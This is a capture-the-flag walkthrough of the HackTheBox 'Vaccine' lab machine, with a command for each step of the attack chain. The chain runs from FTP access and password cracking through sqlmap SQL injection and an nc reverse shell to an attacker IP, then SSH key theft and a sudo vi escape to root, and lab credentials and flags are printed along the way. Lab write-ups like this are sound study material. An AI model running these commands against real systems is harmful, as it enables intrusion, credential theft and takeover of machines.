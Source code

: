 # HACKTHEBOX - Vaccine

## Enumeration
```bash
# Using rustscan to scan 65535 ports:
rustscan -a $IP -g # [21,22,80]

sudo nmap -sV -sC -v -oN nmap.txt -p 21,22,80 $IP
```

**nmap result**:
```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.14.198
|      Logged in as ftpuser
..........
22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
........
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: MegaCorp Login
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

**Ftp on port 21**: `allowed anonymous login`(any password)
```bash
ftp $IP 21
# username: anonymous
mget * # backup.zip
```

We got `backup.zip` file, but this file is password protected zip archive, let's `brute-force` the password:

```bash
# first thing first, using zip2john convert to hash format that john can understand
locate zip2john
/usr/sbin/zip2john backup.zip > backup.hash
john --wordlist=/usr/share/wordlists/rockyou.txt backup.hash 
# password: 741852963        (backup.zip) 
````

Unzip with the password we found, we got `index.php` source code:
```php
<?php
session_start();
  if(isset($_POST['username']) && isset($_POST['password'])) {
    if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3") {
      $_SESSION['login'] = "true";
      header("Location: dashboard.php");
    }
  }
?>
```

This time, we using `crackstation.net` to find the password from md5 hash: 
```
2cb42f8734ea607eefed3b70af13bbd3 --> qwerty789
```

Log in web app with admin password we've found!!

OK, logged in, there're employees list have search function --> sqli --> YES!!

Let use `sqlmap` this time!!
```bash
# Remember to supply cookies, which we've logged in as admin
# --os-shell: Prompt for an interactive operating system shell (sweet!!)
sqlmap -u http://10.129.179.238/dashboard.php?search=hello --os-shell  --cookie='PHPSESSID=tbba04q6c3guadmj9lajpt0qca'
```

We got RCE!! --> Try to get a properly shell, this sqlmap shell keep asking about how to output stuff, so stupid!!

Using python reverse shell -> turn sqlmap shell off --> lost it

Using nc --> We're fine --> OK!!
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.198 8888 >/tmp/f
```
**From /var/lib/postgresql/user.txt**:

**user flag**: `HTB{ec9b13ca4d6229cd5cc1e09980965bf7}`

With attempt to upgrade to interactive shell but after like 3 minutes, the connection just some how keep lossing --> luckily, check home directory(from `/etc/passwd`) which is `/var/lib/postgresql` have `.ssh` --> get `id_rsa` key

`authorized_keys`: postgres@vaccine --> the `username is postgres` not postgresql --> ssh shell!!
```bash
ssh -i id_rsa postgres@$IP
```
## Privilege Escalation

This user is postgres remember!, to try `sudo -l` we have to supply password so let's check file configuration for `postgresql`:

`/var/www/html/dashboard.php`: 
```php
<?php
	session_start();
	if($_SESSION['login'] !== "true") {
	  header("Location: index.php");
	  die();
	}
	try {
	  $conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");
	}
# ............
?>
```
We got postgres user password: `P@s5w0rd!`

```bash
sudo -l
# User postgres may run the following commands on vaccine:
#    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
```
We can using `vim` as root with `sudo` command, but it's being restricted by specific path directory so we cannot use `-c` flag to execute command in vim. However, `vim has execute command mode` in it text-edittor no matter what file vim has to open.
```bash
sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
# :!bash # spawn bash shell!
whoami # root
```

**From /root/root.txt**:

**root flag**: `HTB{dd6e058e814260bc70e9bbdef2715849}`
